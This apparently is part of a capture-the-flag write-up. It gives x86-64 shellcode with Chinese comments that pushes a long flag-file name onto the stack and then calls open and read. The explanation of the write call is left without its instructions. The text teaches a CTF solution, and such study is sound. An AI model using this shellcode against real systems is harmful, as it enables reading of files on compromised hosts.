 ```
push rax
push rax
mov rax, 0x303030306f6f6f6f
push rax
mov rax, 0x6f6f6f6f6f6f6f6f
push rax
push rax
push rax
push rax
push rax
push rax
push rax
push rax
push rax
mov rax, 0x6c5f797265765f73
push rax
mov rax, 0x695f656d616e5f65
push rax
mov rax, 0x6c69665f6568745f
push rax
mov rax, 0x7972726f732e656c
push rax
mov rax, 0x69665f736968745f
push rax
mov rax, 0x646165725f657361
push rax
mov rax, 0x656c705f656c6966
push rax
mov rax, 0x5f67616c665f726b
push rax
mov rax, 0x2e656c62616e7770
push rax
mov rax, 0x5f73695f73696874
push rax

# 调用open函数(函数调用表在代码结尾处注明)
# rdi存放文件名(文件名入栈后的rsp指针)
# rax存放调用号(2)
mov rdi, rsp
xor rax, rax
mov al, 02h
syscall
nop

# 调用read函数
# rdi存放fd(open函数返回的rax)
# rsi存放文件内容，即flag(往栈中开一块64字节的空间，rsp)
# rdx存放读取字符串的长度(64字节)
# rax存放调用号(0)
sub rsp, 100
mov rdi, rax
mov rsi, rsp
xor rdx, rdx
add rdx, 100
xor rax, rax
syscall
nop

# 调用write函数
# rdi存放输出位置(stdout, 因为shellcode不能有0x00，因此使用清零后加1的方法来设置rdi的值)
# rsi存放输出内容，即flag(复用read函数的参数即可)
# rdx存放输出字符串的长度(复用read函数的参数即可)
# rax存放调用号(1)
```